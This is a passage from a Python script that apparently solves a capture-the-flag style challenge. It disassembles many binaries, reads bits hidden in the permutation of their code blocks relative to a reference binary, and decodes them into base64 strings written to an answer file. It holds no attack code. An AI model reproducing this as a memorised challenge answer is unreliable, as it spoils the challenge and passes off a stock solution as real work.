            r[i] = nr
        # print(r)


table = b'\x00\x00\x01\x02\x04\x06\t\x0c\x0f\x12\x15\x19\x1c $(,048=AEJOSX]afkpuz\x7f\x00\x00\x00\x00\x00\x00\x00\x00'
b64_id = b'\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff9\x14\xff\x04\x0b-&+8\'\xff\xff\xff\xff\xff\xff\xff\x06$)?\x0c\x15:\n(!;6\x0f\x03\x1f\x05/\x19=\x02\x1a"\t5\x12\x01\xff\xff\xff\xff\x1d\xff7\x002\x08.\x11\x13#\x07>4\x10< ,\r\x16*3%\x1e\x180\x17\x0e\x1b1\xff\x1c\xff\xff'
b64_table = [None] * 64
for i in range(128):
    if b64_id[i] < 64:
        b64_table[b64_id[i]] = chr(i)


def match_binaries(a, b):
    assert len(a) == len(b)
    res = 0
    cur = 0
    max_bits = 114514
    seed = -1
    for i in range(len(a)):
        perm = match_blocks(a[i], b[i])
        rem = list(range(1, len(perm)))
        assert perm[0] == 0
        si = []
        perm = perm[:35]
        for j in range(1, len(perm)):
            k = 0
            while rem[k] != perm[j]:
                k += 1
            rem = rem[:k] + rem[k + 1:]
            si.append(k)
        r = 0
        for j in range(len(si)):
            r = r * (len(si) - j) + si[j]
        # print('###########', i, len(a[i]), len(perm), si, r)
        # print(perm)
        nbits = table[len(perm) - 1]
        if i == 0:
            assert nbits == 25
            seed = r >> 19
            max_bits = (seed % 32 + 1) * 6
        nbits = min(nbits, max_bits - cur)
        assert r < 2**nbits
        if len(perm) > 3 and nbits:
            for j in range(nbits):
                res += (r >> nbits - j - 1 & 1) << cur
                cur += 1
            # print(len(perm), nbits, cur)
            # print(r, nbits)
    return seed, res


if __name__ == '__main__':
    perm = []
    for line in open('perm.txt').readlines():
        perm.append(list(map(int, line.split(' '))))

    raw = disasm('raw')
    rawp = process_asm(raw)

    for binary_id in range(1, 257):
        test = disasm('binaries/' + str(binary_id))
        # test = disasm('btest/' + str(binary_id))
        testp = process_asm(test)
        seed, a = match_binaries(rawp, testp)
        p = perm[seed]
        n = (seed % 32) * 6
        # print(len(p), n)
        t = [0] * n
        for i in range(n):
            t[p[i]] = a >> i + 6 & 1
        r = ''
        for i in range(n // 6):
            v = 0
            for j in range(6):
                v += t[i * 6 + j] << 5 - j
            r += b64_table[v]
        print(r)
        open('ans.txt', 'a').write(r + '\n')
```
